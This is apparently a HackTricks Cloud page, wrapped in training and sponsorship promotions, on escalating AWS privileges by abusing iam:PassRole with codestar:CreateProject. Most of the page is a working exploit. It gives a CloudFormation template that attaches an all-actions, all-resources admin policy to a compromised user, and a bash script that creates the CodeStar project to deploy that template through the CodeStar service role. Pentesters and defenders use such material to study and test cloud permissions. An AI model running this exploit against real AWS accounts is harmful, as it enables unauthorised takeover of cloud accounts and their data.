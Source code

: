 # iam:PassRole, codestar:CreateProject

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

With these permissions you can **abuse a codestar IAM Role** to perform **arbitrary actions** through a **cloudformation template**.

To exploit this you need to create a **S3 bucket that is accessible** from the attacked account. Upload a file called `toolchain.json` . This file should contain the **cloudformation template exploit**. The following one can be used to set a managed policy to a user under your control and **give it admin permissions**:

{% code title="toolchain.json" %}
```json
{
    "Resources": {
        "supercodestar": {
            "Type": "AWS::IAM::ManagedPolicy",
            "Properties": {
                "ManagedPolicyName": "CodeStar_supercodestar",
                "PolicyDocument": {
                    "Version": "2012-10-17",
                    "Statement": [
                        {
                            "Effect": "Allow",
                            "Action": "*",
                            "Resource": "*"
                        }
                    ]
                },
                "Users": [
                    "<compromised username>"
                ]
            }
        }
    }
}
```
{% endcode %}

Also **upload** this `empty zip` file to the **bucket**:

{% file src="../../../../.gitbook/assets/empty.zip" %}

Remember that the **bucket with both files must be accessible by the victim account**.

With both things uploaded you can now proceed to the **exploitation** creating a **codestar** project:

```bash
PROJECT_NAME="supercodestar"

# Crecte the source JSON
## In this JSON the bucket and key (path) to the empry.zip file is used
SOURCE_CODE_PATH="/tmp/surce_code.json"
SOURCE_CODE="[
    {
        \"source\": {
            \"s3\": {
                \"bucketName\": \"privesc\",
                \"bucketKey\": \"empty.zip\"
            }
    },
        \"destination\": {
            \"codeCommit\": {
                \"name\": \"$PROJECT_NAME\"
            }
        }
    }
]"
printf "$SOURCE_CODE" > $SOURCE_CODE_PATH

# Create the toolchain JSON
## In this JSON the bucket and key (path) to the toolchain.json file is used
TOOLCHAIN_PATH="/tmp/tool_chain.json"
TOOLCHAIN="{
    \"source\": {
        \"s3\": {
            \"bucketName\": \"privesc\",
            \"bucketKey\": \"toolchain.json\"
        }
    },
    \"roleArn\": \"arn:aws:iam::947247140022:role/service-role/aws-codestar-service-role\"
}"
printf "$TOOLCHAIN" > $TOOLCHAIN_PATH

# Create the codestar project that will use the cloudformation epxloit to privesc
aws codestar create-project \
    --name $PROJECT_NAME \
    --id $PROJECT_NAME \
    --source-code file://$SOURCE_CODE_PATH \
    --toolchain file://$TOOLCHAIN_PATH
```

This exploit is based on the **Pacu exploit of these privileges**: [https://github.com/RhinoSecurityLabs/pacu/blob/2a0ce01f075541f7ccd9c44fcfc967cad994f9c9/pacu/modules/iam\_\_privesc\_scan/main.py#L1997](https://github.com/RhinoSecurityLabs/pacu/blob/2a0ce01f075541f7ccd9c44fcfc967cad994f9c9/pacu/modules/iam\_\_privesc\_scan/main.py#L1997) On it you can find a variation to create an admin managed policy for a role instead of to a user.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
